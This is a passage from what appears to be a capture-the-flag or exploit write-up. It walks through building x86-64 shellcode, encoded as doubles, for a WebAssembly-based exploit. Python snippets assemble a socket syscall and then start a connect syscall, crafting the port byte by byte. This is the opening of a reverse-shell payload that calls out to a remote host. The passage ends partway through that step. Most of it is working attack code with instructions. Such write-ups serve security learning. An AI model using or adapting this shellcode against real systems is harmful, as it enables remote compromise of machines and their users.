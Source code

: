 - Here they are expecting a pointer value in rcx, **but RCX is 0**
- So let's add some value, ex: r12 to rcx; now it will pass to the next instruction and we can execute syscall

```python
make_double(asm('xor rax,rax'))
make_double(asm('xor rdi,rdi'))
make_double(asm('xor rsi,rsi'))
make_double(asm('xor rdx,rdx'))
make_double(asm('xor r8,r8'))
make_double(asm('push 0x2'))
make_double(asm('pop rdi'))
make_double(asm('push 0x1'))
make_double(asm('pop rsi'))
make_double(asm('push 0x6'))
make_double(asm('pop rdx; push 0x29'))
make_double(asm(' mov rcx,r12'))
make_double(asm('pop rax; syscall'))
```

- So our `gen_shellcode.py` will looks like this
- After getting the hex output, change to float, then give it to wat code, then convert it to wasm (steps already mentioned above)

![](https://raw.githubusercontent.com/jopraveen/jopraveen/refs/heads/main/imgs/Pasted%20image%2020241023232853.png)

- Great we made our first syscall working
- Now let's work on the other syscalls


#### connect syscall

```python
make_double(asm(' mov r8,rax'))
make_double(asm(' xor rsi,rsi'))
make_double(asm(' xor r10,r10'))
make_double(asm(' push r10'))
make_double(asm("mov BYTE PTR [rsp],0x2"))
```

- append these things to the `gen_shellcode.py` , now let's craft the IP and port

```
mov    WORD PTR [rsp+0x2],0x697a
mov    DWORD PTR [rsp+0x4],0x435330a
```

- We can't move values like this in the shell-strom's shellcode
- We need to minimize this and make the move byte by byte into the struct and finally point the rsi to rsp


```python
## port crafting
make_double(asm("mov BYTE PTR [rsp+0x1],0x0"))
make_double(asm("mov BYTE PTR [rsp+0x2], 0x01"))
make_double(asm("mov BYTE PTR [rsp+0x3], 0xbb"))
```
